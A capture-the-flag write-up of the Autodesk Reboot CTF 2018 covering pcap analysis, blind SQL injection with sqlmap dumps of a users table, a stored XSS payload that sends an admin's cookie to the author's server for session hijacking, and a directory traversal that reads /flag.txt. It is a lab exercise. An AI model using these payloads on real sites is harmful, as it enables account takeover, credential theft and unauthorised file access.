

## Autodesk Reboot CTF 2018

This CTF is more about resverse-engineering which i'm not good at. But these challenges are interesting.

# All Me to Introduce Myself

The challenge is as easy as ... compiling the python code to get the flag:

> python3 -c "for i in [102, 108, 97, 103, 123, 119, 101, 108, 99, 111, 109, 101, 95, 112, 97, 114, 116, 105, 99, 105, 112, 97, 110, 116, 115, 33, 125]: print(chr(i), end='')"


# uhhMAZEin

We are provided with a pcap file and a nc: `nc challenges.ctfd.io 30035`

**Recon:** When I see PCAP, I also see package-sniffing and Wireshark is a useful toy for such. By nc-ing to the above, I'm asked to enter the list of sequences (LEFT, RIGHT, STRAIGHT). It may be obtained from the PCAP file.

Upon opening the file using Wireshark, we can see a lot of traffic on TCP. To filter out garbage, I use this filter: `tcp and not tcp.len==0` to remove the package with no data and show only the package with response.


Now we need to show all the package's content in one view. To do that, right click on any package and select `Streaming > TCP Stream`. 


Now we got all the message. You can type them manually but since i'm I save the response to package.txt and pipe the grep to the nc above:
`(grep 'LEFT, RIGHT, or STRAIGHT:' package.txt | sed 's/^.*: //') | nc challenges.ctfd.io 30035`

We get our flag: 
> flag{like_finding_a_needle_in_a_haystack_in_a_maze}

# Bye-Byte

boo boo

# Blind

We are provided with an URL: `http://68.183.148.46:8001`

**Recon:** Upon visiting website, I see there is a simple signin form. I check with simple query `boo' #` for username and could sign in. But then there is a message saying that the flag is the password. I'm thinking of [SQL Blind Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/). I need to do that anyway but i'm lazy and sqlmap is a useful tool for this occasion.

First, I run sqlmap with simple command:
> sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p" --method POST --dbs

We got some useful information:


You can play around with sqlmap to get all the databases, tables, etc. It takes a while so here is the final query to get the flag:
> sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p"  --method POST -D webapp -T users --dump

ANd here is our flag:
> flag{h4ck3r5_cr4ck3r5_4nd_5ql_1nj3c710n}

# Alchemy

I have no idea about Erl Elixir

# Notesy

We rae rovied with an URL: `http://68.183.148.46:8181/`

**Recon** Upon visiting the webiste, I can see it's a form and after submitting I can see the actual response displayed back to my screen. There is an `Admin` section which I cannot signin. Wait, see the note "We review every submission to ensure that our services aren't being utilized for nefarious purposes", meant that the admin will check the note. It's very basic scenario that we post something and admin reviews it, by reviewing it, his browser will serve whatever content that we embedded in our post. It makes me think of [Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)). 

FYI, when visiting /admin I can see `Powered by Dancer2.` and I was trying to look for an exploit for Dancer2 but found none. So I moved on.

To try out, I check if either field is vulnerable for XXS by entering this in both Title and Description:
> alert('xss');

Boom! Both are injectable. Now I need to get the admin's previllege in order to access the admin's section. Now while visiting the page, I also see my cookie being logged:
> cookie=PHPSESSID=rc06ktvg7d8cl5sknf9gddji92 

To draft the attack, I will setup a host page to log the cookie of the admin, and then spoof my cookie with the one that I stole from admin. Because as mentioned, admins always check the posts so we can easiler trick him to open a page that will log his `document.cookie`.

I spin up a new LAMP stack from DigitalOcean (free and quick) and then start a Simple HTTP Server which serves 2 files: `cookie.php` and `log.txt` which contains all the logs. Next time is to write a post on the challenge which contains malicious code. In the title I had:
>  <script>document.location="http://my_vps_ip/cookie.php?c=" + document.cookie</script>

Now what happens is that when an admin visit my post, his browser will execute the above javascript and make him to visit the my cookie.php with his cookie in the url. Now in the cookie, it will read the params `?c=` and log it into `log.txt` file on my VPS. After a while, I can see the admin info as below:

```
IP: 68.183.148.46 | PORT: 22721 | HOST:  |  Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/72.0.3626.121 Safari/537.36 | METHOD:  | REF: http://localhost:5000/n/3317102d7083ae7ce6d2450e40a5a59e7a3a9c1898aebfa688e8108c29f729af |  DATE: Wednesday 20th 2019f March 2019 07:15:54 AM | COOKIE:  cookie=admin=ZGM2oYVOQ8Q3I8c2cWy47thkvaVja6PTuQLa76l1HrPdTb0btxAACrEiIJIaUhLqXVVRX9Kn7vM7 
```

Now by setting my cookie in Burp Suite or Chrome Console Dev/Extension to this:
> cookie=admin=ZGM2oYVOQ8Q3I8c2cWy47thkvaVja6PTuQLa76l1HrPdTb0btxAACrEiIJIaUhLqXVVRX9Kn7vM7 

I could access the Admin page and get the flag.
> I forget the flag


# Pickleshop

We are provided with an URL: `http://68.183.148.46:9999/`

**Recon:** Upon visiting the website, i can see a lot of images. Checking the image's url I can see that it's being served from a physical file on the server. I'm thinking of [Directory Traversal and File Inclusion](https://www.owasp.org/index.php/Testing_Directory_traversal/file_include_(OTG-AUTHZ-001)).
> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=large_9c6692cf-cb54-41cc-8f65-9eb8d343290f-1.jpg

From the note, our flag is located at `/flag.txt` so I tried to change the directory to point to that file:
> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=/flag.txt

Unfortunately, it does not work, but instead reveals this useful information:



> File "/app/app.py", line 17, in get_pickle return send_file("static/" + img) File "/usr/local/lib/python2.7/site-packages/flask/helpers.py", line 549, in send_file file = open(filename, 'rb') IOError: [Errno 2] No such file or directory: u'/app/static//flag.txt'

I can see that it's being served under `/app/static/` so I need to travese up 2 level:

> http://68.183.148.46:9999/pickle?pickle=STMxMzk5NTQyNDkKLg==&img=../../flag.txt

And there is our flag:

> flag{BOOM_BIG_REVEAL_IM_A_PICKLE}

# apartment

# xml_is_hard

# 64 caneries